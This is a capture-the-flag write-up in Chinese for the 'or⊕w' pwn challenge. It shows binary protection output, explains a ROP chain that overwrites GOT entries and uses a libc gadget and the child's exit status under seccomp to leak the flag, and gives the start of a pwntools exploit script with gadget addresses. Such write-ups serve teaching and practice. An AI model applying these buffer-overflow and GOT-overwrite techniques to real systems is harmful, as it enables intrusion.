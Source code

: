 ## Pwn

### or⊕w

```
// file
orxw: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=e0ea32e6a5da07877fd550b0e4155a33dc707d85, for GNU/Linux 3.2.0, not stripped

// checksec
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   77 Symbols     No	0		1	/tmp/dist/src/orxw
```



程式非常簡單，NX，parent 的 seccomp 只允許 write，而 child 的 seccomp 能夠 open 以及 read，我們能 BOF 寫入大量的 gadget 做 ROP 來 exploit。不過 parent 與 child 只會共享 `fork()` 前的記憶體，在 `fork()` 後就以 COW 的機制來 handle 各自的記憶體，這樣無法用直觀的方式："寫到某處並讓 parent 讀取" 來印出 flag。觀察後發現 parent 會執行 `wait(&status)` 等待 child 結束，而 child 的 exit status 為 1 個 byte 的大小，可以用來傳遞一個字元的 flag。

找到該如何傳遞 flag 後，下一步就是找 gadget 讓 child 與 parent 能夠執行同個 ROP 但有不同的行為，經過一陣子的測試與搜尋，最終用以下方法完成：

1. 把 GOT 中 `puts` 的 address 透過加 offset 改成 `write`，就先叫 `write_got`

2. ROP chain 先跑 `isprint(*(&status+1))`，此時會因為 parent 與 child 得到值的不同 ZF 有差別

3. 控制 rdi 放 `write_got`，rdx 放 `read_got`

4. 再來跳 libc 的 gadget：

   ```asm
   je 0x124300 ; ret 
   0x124300:
   mov    rax,QWORD PTR [rdi] 
   mov    QWORD PTR [rdx],rax 
   mov eax, 0x1
   ret
   ```

   在這時 parent 會把 `read_got` 蓋成 `write`，而 child 則什麼都不會做

5. 控制 rdi 放 1，rsi 放 `&status+1`， rdx 放 0x10

6. 跳到 `read_plt`，如果是 parent 就會跑 `write(1, &status+1, 0x10)`，印出 flag

   - 如果是 child 就會跑 `read(1, &status+1, 0x10)`，syscall 參數爛掉只會傳 -1 所以沒差

7. 執行後續 child 在讀取 flag 的操作，而 parent 會因為 seccomp abort 不過沒差，因為已經印出 flag 了



exploit：

```python
#!/usr/bin/python3

from pwn import *
import sys

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

leave_ret = 0x40138c
pop_rdi_ret = 0x401573
pop_rsi_r15_ret = 0x401571
add_prbp_ebx_ret = 0x40125c # add dword ptr [rbp - 0x3d], ebx ; nop ; ret 
dword_or_offset = 4294966560 # open - read 
setbuf_got = 0x404040
```